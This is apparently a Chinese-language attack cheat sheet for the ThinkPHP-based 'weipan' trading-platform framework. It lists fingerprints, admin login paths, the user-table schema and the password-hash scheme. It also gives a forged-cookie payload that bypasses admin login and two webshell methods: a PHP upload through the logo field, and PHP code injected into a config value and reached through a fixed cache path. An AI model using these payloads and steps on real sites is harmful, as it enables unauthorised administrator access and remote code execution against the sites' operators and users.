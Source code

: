 # weipan

---

微盘框架特征：

```
网站标题的图标默认是绿色的微字（也可以在浏览器历史记录中查看）
用户在前端登陆后访问的是伪静态页面，如good/pid/2/token/xxxxxxx.html
登陆页面：/passport/login/index/?lang=zh-cn
	     /index/login/login/token/xxxxxxxx.html
```

RCE：

```
1.用户注册填信息的地方存在xss
2.商品行情页面good/pid/2 存在sql注入
3.以thinkphp框架二次开发的框架，存在thinkphp的RCE
4.thinkphp的日志泄露，搜索error可能找到sql注入的地方
5.其他漏洞：https://www.cnblogs.com/-qing-/p/10693139.html
```

基本信息

```
表名：
|-wp_userinfo  #用户表，管理员和用户信息存放的表
|--username用户名
|--upwd 密码md5
|--utime 注册时间戳，默认upwd是密码+utime的md5（具体需要看后台登陆页面是怎么校验登陆的）
|--otype 3为管理员，4为平台用户
|-wp_whitelist  # 可以设置白名单IP访问后台
设置域名白名单访问：一般可以通过不用域名访问目标站点，但是只能通过一个域名访问目标站点后台
/Application/Common/Conf/site.php
'siteurl' => 'xxx1.com',
'siteurlreg' => 'https://xxx1.com',  #  
'siteurladm' => 'admin.xxx1.com',  # 能访问后台的白名单域名
'appdownurl' => 'https://xxx2.com',  # app下载页面

```

后台登陆绕过登陆

- 教程：https://www.freebuf.com/articles/web/254396.html

- 将cookie中denglu参数改成（otype是权限，token是验证）

```
denglu=think:{"otype":"3","userid":"","username":"","token":"3c341b110c44ad9e7da4160e4f865b63"}
```

后台get5he11 -1

- 教程：https://www.freebuf.com/articles/web/254396.html

```
/参数设置/基本设置/LOGO/选择文件/
通过源代码查看logo处可以看到路径，一般在public/uploads/20210101/md5.php（上传日期/文件md5）
```

后台get5he11 -2

- 教程：https://forum.90sec.com/t/topic/988

```
/参数设置/添加配置/依次输入test、test、test、文本、参数配置
/参数设置/参数设置/在test拦中输入 ：
---
 "
phpinfo();//
---
访问前端页面进行缓存刷新后直接访问：（固定路径文件）
/runtime/cache/3a/8e4c06e471595f6eb262bb9b5582d9.php

PS：如果没有参数设置，可能只是删除了导航，没有删除实际功能
可以直接访问/setup/addsetup.html  添加配置
```

